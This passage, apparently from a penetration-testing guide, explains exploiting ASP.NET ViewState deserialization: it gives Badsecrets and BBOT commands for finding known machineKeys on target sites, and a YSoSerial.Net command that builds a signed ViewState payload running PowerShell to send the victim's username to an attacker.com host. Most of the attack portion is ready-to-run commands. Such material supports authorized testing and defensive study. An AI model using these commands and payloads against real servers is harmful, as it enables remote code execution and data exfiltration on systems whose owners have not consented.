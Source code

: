 [**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) is another tool which can identify known machineKeys. It is written in Python, so unlike Blacklist3r, there is no Windows dependency. For .NET viewstates, there is a "python blacklist3r" utility, which is the quickest way to use it.

It can either be supplied with the viewstate and generator directly:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
```

![https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png](https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png)

Or, it can connect directly to the target URL and try to carve the viewstate out of the HTML:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx
```

![https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png](https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png)

To search for vulnerable viewstates at scale, in conjunction with subdomain enumeration, the `badsecrets` [**BBOT**](exploiting-__viewstate-parameter.md) module can be used:

```
bbot -f subdomain-enum -m badsecrets -t evil.corp
```

![https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png](https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png)

If you are lucky and the key is found,you can proceed with the attack using [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)**:**

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```

In cases where `_VIEWSTATEGENERATOR` parameter **isn't sent** by the server you **don't** need to **provide** the `--generator` parameter **but these ones**:

```bash
--apppath="/" --path="/hello.aspx"
```

### Test Case: 3 – .Net < 4.5 and EnableViewStateMac=true/false and ViewStateEncryptionMode=true
